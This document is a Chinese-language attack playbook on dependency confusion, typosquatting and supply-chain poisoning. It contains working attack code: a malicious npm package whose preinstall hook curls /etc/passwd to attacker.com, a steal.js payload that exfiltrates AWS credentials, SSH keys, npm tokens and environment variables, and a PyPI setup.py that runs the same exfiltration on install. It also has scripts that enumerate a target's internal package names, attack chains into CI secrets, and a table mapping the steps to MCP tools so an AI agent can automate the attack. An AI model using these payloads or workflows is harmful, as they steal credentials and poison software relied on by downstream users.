

# Dependency Confusion & 供应链攻击

## 0. 依赖混淆路线图

依赖混淆的关键判断是“包名解析会不会从 public registry 落到攻击者控制的包”。先看 scope、registry、lockfile、版本优先级，再决定 npm/PyPI/镜像/CI 方向。

| 信号 | 打点 | 命中样本 | 下一跳 |
|---|---|---|---|
| `package-lock.json` 暴露 internal package | 查 public registry 是否空名 | public 可注册 | npm confusion |
| `.npmrc` / `.yarnrc` scope 配置 | scope 是否绑定私有 registry | scope 缺失或 fallback | scope takeover |
| `requirements.txt` / `pyproject.toml` | 私有包名、extra-index-url | PyPI 同名可抢 | PyPI confusion |
| CI install 日志 | registry URL、cache key | public registry 命中 | CI/CD runner |
| Dockerfile / build args | `pip install`, `npm install` | build 阶段执行 script | image poisoning |
| artifact/package publish token | `NPM_TOKEN`, `PYPI_TOKEN` | 可发布/覆盖包 | downstream takeover |



## 内部包名枚举

```python
# 探测目标公司使用的内部 npm/PyPI 包名
import requests, json

def enumerate_internal_packages(domain: str):
    """从公开信息枚举内部包名"""
    internal = []

    # 源 1: JS bundle 中 import 语句
    for js_file in ["/main.js", "/app.js", "/bundle.js", "/index.js"]:
        r = requests.get(f"https://{domain}/{js_file}")
        if r.status_code == 200:
            imports = re.findall(r'(?:import|require)\s*\(?["\']([@\w][^"\']+)["\']', r.text)
            for imp in imports:
                if not imp.startswith("@") or imp.startswith(f"@{domain.split('.')[0]}"):
                    internal.append(imp)

    # 源 2: package.json / package-lock.json 暴露
    for pkg_file in ["/package.json", "/package-lock.json"]:
        r = requests.get(f"https://{domain}/{pkg_file}")
        if r.status_code == 200:
            try:
                data = r.json()
                deps = {**data.get("dependencies", {}), **data.get("devDependencies", {})}
                for name in deps:
                    if "/" in name or name.startswith("@"):
                        internal.append(name)
            except: pass

    # 源 3: Source maps 中的 import
    # 源 4: GitHub 仓库中 .npmrc / .yarnrc 配置的 private registry scope

    return list(set(internal))
```

### 0.1 包名来源矩阵

| 来源 | 命令/文件 | 提取字段 |
|---|---|---|
| JS bundle/source map | `rg "from ['\\\"]|require\\("` | import/require 包名 |
| lockfile | `package-lock.json`, `yarn.lock`, `pnpm-lock.yaml` | resolved、integrity、version |
| Python | `requirements.txt`, `poetry.lock`, `pyproject.toml` | name、index、version |
| CI logs | install output | registry、cache、token env 名 |
| Docker build | Dockerfile | install command、build args |

```python
# dep_name_router.py — 包名候选与 registry 判定
import json
import re
from pathlib import Path

PKG = re.compile(r"(?:from|require\()\s*[\"']([^\"']+)[\"']|(?:^|\s)([@\w][\w./-]+)==?[\d*]", re.M)

def scan_paths(paths):
    names = set()
    for p in map(Path, paths):
        if not p.exists():
            continue
        text = p.read_text(encoding="utf-8", errors="ignore")
        for m in PKG.findall(text):
            if isinstance(m, tuple):
                m = next((x for x in m if x), "")
            if m and not m.startswith((".", "/", "http")):
                names.add(m.split("@")[0] if m.startswith("@") is False else m)
    print(json.dumps(sorted(names), ensure_ascii=False, indent=2))
```

## NPM Registry 投毒

```python
# 发现内部包名 "internal-utils" (不在 public npm 上)
# 攻击者在 npm 发布同名包，版本号 > 内部版本

PACKAGE_SETUP = {
    "name": "internal-utils",
    "version": "99.0.0",      # >> 内部版本，优先被安装
    "description": "Utility library",
    "main": "index.js",
    "scripts": {
        "preinstall": "node -e 'require(\"child_process\").execSync(\"curl -d @/etc/passwd https://attacker.com/log\")'",
        "postinstall": "node steal.js"  # 更隐蔽: 读 ~/.aws/credentials
    },
    "files": ["index.js", "steal.js"],
}

# 发布:
# npm login
# npm publish --access public

# 下次 CI build → npm install → 优先拉攻击者的 99.0.0 → preinstall 执行
```

### npm 判定矩阵

| 条件 | 观察 | 可打点 |
|---|---|---|
| public 未占用 | `npm view <name>` 404 | 注册同名高版本 |
| scope 未绑定 registry | `.npmrc` 无 `@scope:registry` | scoped package 抢占 |
| lockfile 不固定 | 无 `resolved/integrity` 或被更新 | 版本优先 |
| install scripts 执行 | `ignore-scripts=false` | preinstall/postinstall |
| CI 有 publish token | `NPM_TOKEN` / `NODE_AUTH_TOKEN` | package takeover |

```javascript
// steal.js — npm install script payload
const fs = require('fs');
const os = require('os');
const { execSync } = require('child_process');

// 收集环境信息
const loot = {
    hostname: os.hostname(),
    user: os.userInfo().username,
    cwd: process.cwd(),
    env: process.env,
};

// 找敏感文件
['~/.aws/credentials', '~/.ssh/id_rsa', '~/.npmrc']
    .map(f => f.replace('~', os.homedir()))
    .forEach(f => {
        try { loot[f] = fs.readFileSync(f, 'utf-8').slice(0, 1000); } catch {}
    });

// 外带
require('https').request({hostname:'attacker.com',path:'/d',method:'POST',
    headers:{'Content-Type':'application/json'}}).end(JSON.stringify(loot));
```

## Manifest vs Tarball 不一致

```python
# npm registry metadata 中的 package.json ≠ tarball 中的 package.json
# npm install 执行的是 tarball 中的 scripts，而不是 registry 显示的

# 绕过审查:
# 1. 注册表上显示干净的 package.json (无 preinstall script)
# 2. tarball 内嵌的有 malicious preinstall
# 3. npm audit 检查 registry metadata → 只看到 registry 展示面
# 4. npm install 执行 tarball → 恶意代码运行
```

## Typosquatting

```python
# 常见 typosquat 变体
TYPOSQUAT_PATTERNS = lambda name: [
    name.replace("e", "ee"),           # "electron" → "electroon"
    name.replace("a", "ae"),           # "axios" → "aexios"
    name.replace("o", "0"),            # "lodash" → "l0dash"
    name.replace("l", "1"),            # "util" → "uti1"
    name + "-js",                      # "react" → "react-js"
    name + "-util",                    # "core" → "core-util"
    name.replace("-", ""),             # "node-fetch" → "nodefetch"
    name.replace("_", "-"),            # "lodash_utils" → "lodash-utils"
    name[::-1],                        # 反向 (如果短)
    name + "s",                        # "package" → "packages"
    "node-" + name,                    # "fetch" → "node-fetch"
]

# 批量检查这些名字是否在 npm 上不存在 → 抢占注册
```

## PyPI 攻击

```python
# PyPI 依赖混淆
# setup.py
from setuptools import setup
import os

# pre-install RCE
os.system("curl -d \"$(cat /etc/passwd)\" https://attacker.com/")

setup(
    name="internal-tool",
    version="99.0.0",
    packages=["internal_tool"],
    install_requires=[],  # 不引人注目
)
# python3 setup.py sdist
# twine upload dist/*
```

### PyPI 判定矩阵

| 条件 | 观察 | 可打点 |
|---|---|---|
| `extra-index-url` | private + public fallback | public 同名包 |
| build backend | `setup.py`, PEP517 backend | build/install 执行 |
| version pin 宽松 | `>=`, `*`, 未 pin | 高版本优先 |
| CI wheel cache | cache key 可控 | 缓存污染 |
| publish token | `PYPI_TOKEN`, `.pypirc` | 覆盖组织包 |

```python
# pypi_confusion_probe.py — 解析 Python 依赖入口
import re

def parse_requirements(text):
    for line in text.splitlines():
        s = line.strip()
        if not s or s.startswith("#"):
            continue
        if s.startswith(("--index-url", "--extra-index-url")):
            print({"index": s})
        else:
            name = re.split(r"[<>=!~\[]", s, 1)[0]
            print({"package": name, "raw": s})
```

## CI/CD 执行与下游投递

| 阶段 | 目标 | Evidence |
|---|---|---|
| install | preinstall/postinstall/build backend 执行 | runner hostname、job id、package version |
| secrets | env/OIDC/registry token | key 名、长度、role ARN，不保存真实值 |
| artifact | build output 被污染 | artifact hash、下游 job 使用记录 |
| publish | npm/PyPI/Docker 发布 | package/tag、version、download/install log |
| deploy | 下游应用加载包 | marker、回连、flag/secret 位置 |

## 攻击链

```
Package name enum → npm publish → CI build → preinstall RCE → secrets 渗出
Dependency confusion → pip install → post-install → SSH key steal → infra 访问
Typosquat → 开发者输错包名 → 安装恶意包 → env steal → credential 泄露
Manifest/tarball 不一致 → 绕过 npm audit → CI 信任 → install RCE
```

```text
package-lock 泄露 → internal package 可注册 → npm publish 高版本
  → GitHub Actions install → GITHUB_TOKEN/OIDC → cloud role
  → artifact/image publish → deploy → flag

requirements + extra-index-url → PyPI 同名高版本
  → build backend 执行 → PYPI_TOKEN/NPM_TOKEN
  → 覆盖组织包 → 下游安装 → flag
```

## Evidence

- `package_candidates.json`: 来源文件、包名、scope、registry、version、public 查询结果。
- `registry_resolution.csv`: package、private registry、public registry、lockfile resolved、最终来源。
- `ci_install_proof.json`: job id、runner、package version、install script marker。
- `secret_env_matrix.txt`: key 名、长度、来源 job，不保存真实值。
- `artifact_downstream.json`: artifact/image/package 名称、hash、下游 job/deploy 使用。
- 成功样本: CI 安装可控包、runner 执行 marker、OIDC/registry token 可用、下游安装污染版本、flag。
- 失败样本: scope 强绑定私有 registry、lockfile 固定 integrity、install scripts 禁用、fork job 无 secrets。

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 依赖混淆探测 | `http_probe` | HTTP GET 探测包管理器注册表端点 |
| 知识检索 | `kb_router` | 按依赖混淆信号搜索知识库 |
| CI/CD 下一跳 | `kb_router` | 命中 runner/secrets/OIDC 后跳转 CI/CD 文档 |
